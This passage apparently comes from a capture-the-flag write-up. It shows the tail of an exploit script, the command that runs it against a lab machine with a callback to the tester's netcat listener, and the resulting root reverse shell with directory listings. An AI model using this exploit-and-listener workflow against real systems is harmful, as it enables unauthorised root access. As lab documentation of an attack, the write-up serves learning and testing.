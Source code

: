 ```
  22   │ 
  23   │    print("\n[\033[1;32m+\033[1;37m] Request sent successfully, check your listener\n")
  24   │ 
  25   │ except:
  26   │ 
  27   │    print("\n[\033[1;31m-\033[1;37m] Something went wrong, check the connection and try again\n")
```

python3 exploit2.py 127.0.0.1 8500 10.10.14.204 8080




```
   1   │ ┌──(noesholk㉿noes)-[~/Documentos]
   2   │ └─$ nc -lvnp 8080                  
   3   │ listening on [any] 8080 ...
   4   │ connect to [10.10.14.204] from (UNKNOWN) [10.10.11.46] 37800
   5   │ bash: cannot set terminal process group (70264): Inappropriate ioctl for device
   6   │ bash: no job control in this shell
   7   │ root@heal:/# ls
   8   │ ls
   9   │ bin
  10   │ boot
  11   │ cdrom
  12   │ dev
  13   │ etc
  14   │ home
  15   │ lib
  16   │ lib32
  17   │ lib64
  18   │ libx32
  19   │ lost+found
  20   │ media
  21   │ mnt
  22   │ opt
  23   │ proc
  24   │ root
  25   │ run
  26   │ sbin
  27   │ srv
  28   │ sys
  29   │ tmp
  30   │ usr
  31   │ var
  32   │ root@heal:/# ls
  33   │ ls
  34   │ bin
  35   │ boot
  36   │ cdrom
  37   │ dev
  38   │ etc
  39   │ home
  40   │ lib
  41   │ lib32
  42   │ lib64
  43   │ libx32
  44   │ lost+found
  45   │ media
  46   │ mnt
  47   │ opt
  48   │ proc
  49   │ root
  50   │ run
```